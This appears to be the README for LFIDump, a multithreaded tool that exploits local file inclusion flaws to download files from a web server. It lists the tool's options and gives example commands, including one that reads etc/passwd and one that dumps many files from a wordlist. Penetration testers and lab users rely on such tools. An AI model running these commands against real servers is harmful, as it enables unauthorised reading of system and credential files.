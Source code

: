 # LFIDump

## Setup 

`pip install -r requirements.txt`

## Features

 - [x] Dump a single file with `-f path/to/remote/file.txt`
 - [x] Dump files from a wordlist with `-F /path/to/local/wordlist.txt`
 - [x] Custom output directory with `-o/--output`
 - [x] Multithreaded with -t (defualt of 10 threads)

## Usage

```
./LFIDump.py -h                                            
usage: LFIDump.py [-h] [-v] -u URL (-f FILE | -F FILELIST) [-o OUTPUT] [-t THREADS] [-fs FILTER_SIZE] [-fw FILTER_WORDS]

Description message

options:
  -h, --help            show this help message and exit
  -v, --verbose         Verbose mode. Print both successful and failed attempts.
  -u URL, --url URL     URL to connect to. (example: http://localhost/?page=LFIPATH)
  -f FILE, --file FILE  Remote file to read.
  -F FILELIST, --filelist FILELIST
                        File containing a list of paths to files to read remotely.
  -o OUTPUT, --output OUTPUT
                        Directory where the dumped files will be stored.
  -t THREADS, --threads THREADS
                        Number of threads to use. (default: 10)
  -fs FILTER_SIZE, --filter-size FILTER_SIZE
                        Filter results based on the amount of bytes.
  -fw FILTER_WORDS, --filter-words FILTER_WORDS
                        Filter results based on the amount of words.
```

## Examples

 + Dump a single file
    ```
    ./LFIDump.py -u "http://localhost:8000/lfi.php?page=LFIPATH" -f etc/passwd
    ```
   
 + Dump files from a wordlist
    ```
    ./LFIDump.py -u "http://localhost:8000/lfi.php?page=LFIPATH" -F ./wordlists/all.txt
    ```
    
